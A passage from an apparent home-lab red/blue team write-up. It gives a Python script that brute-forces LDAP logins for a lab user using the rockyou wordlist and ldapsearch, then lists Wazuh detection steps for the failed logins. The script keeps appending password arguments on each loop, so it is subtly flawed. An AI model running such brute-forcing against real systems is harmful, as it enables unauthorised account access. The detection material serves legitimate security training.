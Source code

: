 Manually using the ldapsearch command to repeatedly iterate through the wordlist is tedious and inefficient, so to aid in this process I created a custom python script (shown below). 

```python
import subprocess

password_list = '/usr/share/wordlists/rockyou.txt'
username = 'scarab'
server = '192.168.1.138'

command = ['ldapsearch', 
           '-H', f'ldap://{server}',
           '-D', f'{username}',
           '-b', 'DC=backyard,DC=local',
           ]

with open(password_list) as wordlist:
    
    for password in wordlist:
    
        password = password.strip() # remove whitespace and newlines
        print(f'Trying {password}', end='\r')
        
        command += ['-w', password]
        output = subprocess.run(command, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
        
        if output.returncode == 0: # LDAP auth success
            print(f'Matched {password}')
            break
```

Essentially all this python script does is use subprocess to run the ldapsearch tool repeatedly until it finds a password match. It's not super intelligent, if it doesn't find a match it won't tell you - we could modify it to do that but for this exercise this is fine. The script checks for the error code 0 and prints the matched password if the condition is met. The output is suppressed, but can be added back in by modifying the subprocess.run() function if required.

And that's it, within a short space of time the password will be guessed (assuming it exists in the chosen wordlist). The weak password policy and lack of lockout mechanisms make this a trivial exercise, allowing limitless attempts to authenticate into the user despite an array of failed logins.

## Blue Team
### Detection
1. Run the brute forcer script from the red teaming exercise
2. Navigate to Explore/Discover in Wazuh
3. Add a filter for `data.win.eventdata.targetUserName: scarab`
4. Filter for the last hour

After running the `ldap_brute_forcer.py` script we can see from the logs that there are 9 authentication failures, and one success. This lines up perfectly with the wordlist used, and is showing exactly as expected. Digging into these failed logins further will unveil some key information which describes the failed logins in more detail:

